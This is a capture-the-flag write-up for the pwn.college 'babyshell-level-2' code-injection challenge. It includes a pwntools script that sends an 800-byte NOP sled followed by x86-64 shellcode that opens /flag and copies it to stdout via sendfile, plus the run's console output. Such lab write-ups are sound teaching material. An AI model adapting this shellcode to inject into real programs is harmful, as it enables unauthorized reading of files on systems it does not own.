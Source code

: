 From here we understand that it is skipp 800 bytes of our shellcode before actually executing it luckily they seem to have given us a hint to just ``nop`` before the actual functionality of the code. Now we can just send 800 lines of this :D
Nop is generally used to align code as it does nothing.

```python
from pwn import *

p = process("/challenge/babyshell-level-2")
context.arch = 'amd64'

shellcode = asm(f'''
mov rbx, 0x00000067616c662f  # push "/flag" filename
push rbx

mov rax, 2                  # syscall number of open
mov rdi, rsp                # point the first argument at stack (where we have "/flag")
mov rsi, 0                  # NULL out the second argument (meaning, O_RDONLY)
syscall                     # trigger open("/flag", NULL)

mov rdi, 1                  # first argument to sendfile is the file descriptor to output to (stdout)
mov rsi, rax                # second argument is the file descriptor returned by open
mov rdx, 0                  # third argument is the number of bytes to skip from the input file
mov r10, 1000               # fourth argument is the number of bytes to transfer to the output file
mov rax, 40                 # syscall number of sendfile
syscall                     # trigger sendfile(1, fd, 0, 1000)

mov rax, 60                 # syscall number of exit
syscall                     # trigger exit()
''')

buffer = asm("nop") * 800

p.sendline(buffer + shellcode)
p.interactive()
```

Running this returns us the file: (had to run it a couple of times hmmmm)

```shell
hacker@shellcode-injection~level2:~$ python3 script.py 
[+] Starting local process '/challenge/babyshell-level-2': pid 894
[*] Switching to interactive mode
###
### Welcome to /challenge/babyshell-level-2!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

In this challenge, shellcode will be copied onto the stack and executed. Since the stack location is randomized on every
execution, your shellcode will need to be *position-independent*.

Allocated 0x1000 bytes for shellcode on the stack at 0x7ffdfa3d1090!
Reading 0x1000 bytes from stdin.

Executing filter...
```